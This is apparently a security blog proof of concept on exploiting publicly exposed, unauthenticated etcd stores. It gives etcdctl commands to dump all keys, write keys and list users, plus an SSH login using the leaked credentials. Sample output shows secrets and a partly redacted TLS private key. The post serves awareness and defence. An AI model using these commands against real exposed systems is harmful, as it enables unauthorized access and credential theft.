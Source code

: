 # PoC: Hacking Systems via Exposed ETCD Instances

[*Etcd*](https://github.com/etcd-io/etcd) is an open-source distributed key-value store that provides a reliable way to store data across a cluster of machines.  
It's often used as a foundational component in distributed systems, serving as a distributed coordination service for managing configurations, maintaining state, and facilitating communication between different parts of a distributed system.  

Originally developed by CoreOS, etcd is written in Go and uses the **Raft consensus algorithm** to ensure consistency and fault-tolerance.  
It's designed to be highly available, durable, and scalable, making it suitable for use in production environments where reliability and consistency are crucial.  

Some common use cases for etcd include service discovery, leader election, configuration management, and coordination between distributed components.  
It's widely used in container orchestration systems like **Kubernetes**, where it helps manage cluster state and configuration data for containers and their applications.  

It is not uncommon to encounter instances of etcd publicly exposed and lacking authentication measures.  
In such cases, malevolent actors may exploit the API using tools like curl or, preferably, [*etcdctl*](https://github.com/etcd-io/etcd/blob/main/etcdctl/README.md), to perform malicious operations. Here is an example of a real-world scenario.  

## The Scenario
A malicious actor is probing exposed services on [*Shodan*](https://www.shodan.io/) with the following simple query: `etcd`.  
After several attempts, they discover an instance of etcd without authentication and attempt to list the *keys/values* using the following command:  
```console
export ETCDCTL_ENDPOINTS="http://$EXPOSED_IP:2379" \
&& export ETCDCTL_API=3 \
&& etcdctl get --prefix ""
```  

Possible Output:  

```console
/apis/url/
https://my.api.com/v1/users/
apis/token/
wBtkA97eCyqPfQWtGBXf35T5AYbAuKGrQ1Ifq6wgzwjhZXtr87yQDgokSjfiVCVI
/ssh/user/
system
/ssh/pass/
P4SsW0rd_+^"!
```  

> Note  
> the attacker can also list all the etcd peers with this command: `etcdctl member list`  


It's worth noting that, at this juncture, an attacker could potentially inflict damage on the system by deleting and/or modifying the values of the etcd keys.  
In this specific scenario, if the target server also exposes SSH, the attacker might also attempt to gain access using the values of the keys */ssh/user/* and */ssh/pass/*:  

```console
ssh system@$EXPOSED_IP 
system password:  P4SsW0rd_+^"!
```   

The attacker can also add a new key value:  
```console
etcdctl put rooted P4wn3D!🖕
```  

or retrieve etcd users and roles:  
```console
etcdctl user list; etcdctl role list
```  

There have also been instances where [*PostgreSQL*](https://www.postgresql.org/) configurations were stored in one key in etcd, and its credentials in another.  
In that particular scenario, PostgreSQL was also exposed as a service on the server, allowing us to query a list of tables and all the data contained within them.  
Furthermore, we discovered wildcard certificates for the entire domain of a company, intentionally redacted and obscured as follows:  

```console
/apisix/ssl/982578101
{"id":"423764178751193820","create_time":1662112733,"update_time":1689821613,"cert":"-----BEGIN CERTIFICATE-----\nMIIGLDCCBRSgAwIBAgIQCJY\n-----END CERTIFICATE-----\n-----BEGIN CERTIFICATE-----\nMITqCwtukZ7u9VLL3JAq3Wdy2moKLvvC8tVmRzkAe\n0xQCkRKIjbBG80MSyDX/R4uYgj6ZiNT/Zg6GI6RofgqgpDdssLc0XIRQEotxIZcK\nzP3pGJ9FCbMHmMLLyuBd+uCWvVcF2ogYAawufChS/PT61D9rqzPRS5I2uqa3tmIT\n44JhJgWhBnFMb7AGQkvNq9KNS9dd3GWc17H/dXa1enoxzWjE0hBdFjxPhUb0W3wi\n8o34/m8Fxw==\n-----END CERTIFICATE-----\n","key":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAzF/2R4nLsR8JCsX3Pl1kAML/zy0fmBFRXhPWmE7SGYoiWciq\niIalocl4DM7b5KEk5XwsFdMIEovyy0fgTOhquBwI+t35v7BN5b/BV/zNXHlmqqSs\nCITYs+C/7Ez6C0rsC7pyAmOUaAat4FsaSzvm/Z84s2qwtdejcwnv\n-----END RSA PRIVATE KEY-----\n",
"snis":["*.company.com","company.com"],"status":1,"validity_start":1689638400,"validity_end":1723593599}
```  

These are likely SSL/TLS certificates for [*Apache APISIX*](https://github.com/apache/apisix).  
APISIX is an open-source, cloud-native microservices API gateway that it is used for managing and securing (sigh 😔) APIs.  

Here is a list of attacks that a threat actor can probably implement with access to such certificates:  
- *Man-in-the-Middle (MitM) Attacks*
- *Data Interception*
- *Traffic Redirection*
- *Session Hijacking*
- *SSL Stripping*
- *Impersonation Attacks*
- *Replay Attacks*

Keep in mind that it is rare to encounter exposed instances of etcd containing keys with this type of sensitive data, but it has occurred in the past following some reconnaissance efforts.  


This scenario serves as a [*yet another reminder*](../04-04-24/kubernetes.md) to consistently implement robust authentication mechanisms for our systems and to refrain from exposing them to the entire world unless absolutely necessary (which, in 99.99% of cases, it is not).  


<br>  


- [Back to main page](../../../index.md)  